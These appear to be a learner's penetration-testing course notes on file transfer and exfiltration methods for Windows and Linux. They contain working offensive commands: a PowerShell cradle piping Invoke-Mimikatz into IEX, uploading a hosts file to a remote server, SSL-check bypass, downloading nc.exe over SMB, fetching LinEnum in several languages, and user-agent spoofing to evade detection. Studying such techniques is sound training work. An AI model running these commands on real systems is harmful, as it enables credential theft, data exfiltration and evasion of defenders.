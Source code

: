 	Many data ex filtration techniques may be blocked, we need to find ways to bypass these.
## Windows File Transfers
*Fileless* means that the attack doesn't come in an external file and instead uses tools built into windows already.

![[fig1a-astaroth-attack-chain.webp]]

We can use base64 to directly copy over contents of a file if not too big.
Command line has a max character string of 8194 characters so  may not be possible.

#### Powershell Download Methods
|**Method**|**Description**|
|---|---|
|[OpenRead](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0)|Returns the data from a resource as a [Stream](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0).|
|[OpenReadAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0)|Returns the data from a resource without blocking the calling thread.|
|[DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0)|Downloads data from a resource and returns a Byte array.|
|[DownloadDataAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0)|Downloads data from a resource and returns a Byte array without blocking the calling thread.|
|[DownloadFile](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0)|Downloads data from a resource to a local file.|
|[DownloadFileAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0)|Downloads data from a resource to a local file without blocking the calling thread.|
|[DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0)|Downloads a String from a resource and returns a String.|
|[DownloadStringAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0)|Downloads a String from a resource without blocking the calling thread.|
Downloadstring can be piped into iex with 
```powershell-session
PS C:\htb> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

list of power shell download cradles can be found here 
https://gist.github.com/HarmJ0y/bb48307ffa663256e239

May need to bypass SSL with 
```powershell-session
PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

### SMB Downloads
Server Message Block that runs on port 445 is common in enterprise networks where windows services are running. 

We can create a smb server with impacket's smbserver
```
impacket-smbserver
```
with this we can mount the server with a username/password
```cmd-session
C:\htb> net use n: \\192.168.220.133\share /user:test test

The command completed successfully.

C:\htb> copy n:\nc.exe
        1 file(s) copied.
```

### FTP 
We can create a ftp server with 
```
python3 -m pyftpdlib
```

and transfer files with powershell's 
```powershell-session
S C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```


### Powershell web Uploads
There is no curl command on PS it is only an alias for IEX 
```powershell-session
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\htb> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

### WebDav
We can create our own smbserver with WebDav
## Linux
Wget and curl 

We can do fileless operations with pipes |  

Web uploads with curl and -x POST

Create self signed certs with openssl 
```shell-session
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```


## Downloading with code
#### Python
```shell-session
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

#### PHP 
```shell-session
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

#### RUBY
```shell-session
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

#### JS
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

## Miscellaneous
Encryption on linux with openssl

HTTPS/HTTP most common allowed through firewalls. python3 upload server POST

## LOTL
Lolbins  are binaries that an attacker can use to preform actions beyond their original purposes. 

Living off the Land binaries can be used to perform functions such as:

- Download
- Upload
- Command Execution
- File Read
- File Write
- Bypasses

LOLBAS - Windows
https://lolbas-project.github.io/#
GTFOBINS - Linux 
https://gtfobins.github.io/

## Detection
Command line detection based off whitelists is extremely time consuming but robust.
Filter by legitimate user agent strings.

## Evading Detection
If administrators have blacklisted any user agents Invoke-WebRequest contains a useragent parameter which allows for changing the default user agent to a new one to emulate IE, Chrome, Firefox

```powershell-session
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```

```powershell-session
PS C:\htb> $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

